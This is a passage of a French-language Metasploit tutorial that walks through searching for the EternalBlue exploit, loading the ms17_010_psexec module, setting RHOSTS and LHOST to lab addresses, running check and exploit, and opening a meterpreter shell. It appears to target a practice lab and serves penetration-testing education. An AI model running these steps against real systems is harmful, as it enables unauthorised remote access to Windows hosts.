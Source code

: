 <mark style="color:green;">**Recherche d'Exploit :**</mark>

```bash
search exploit <vulnérabilité>
```

<mark style="color:green;">**Exemple :**</mark>

```bash
search exploit eternalblue
```

Cela retourne les modules Metasploit correspondants à la vulnérabilité `EternalBlue`.

***

### <mark style="color:blue;">**5. Utilisation d'un Exploit avec Metasploit**</mark>

<mark style="color:green;">**Charger un Module d'Exploit :**</mark>

```bash
use <nom_complet_du_module>
```

<mark style="color:green;">**Exemple :**</mark>

```bash
use exploit/windows/smb/ms17_010_psexec
```

<mark style="color:green;">**Configurer les Options :**</mark>

```bash
show options
set <nom_option> <valeur>
```

<mark style="color:green;">**Exemple :**</mark>

```bash
set RHOSTS 10.10.10.40
set LHOST tun0
```

<mark style="color:green;">**Vérifier la Vulnérabilité :**</mark>

```bash
check
```

<mark style="color:green;">**Lancer l'Exploit :**</mark>

```bash
exploit
```

**Exemple de Commandes :**

```bash
meterpreter > getuid
meterpreter > shell
```
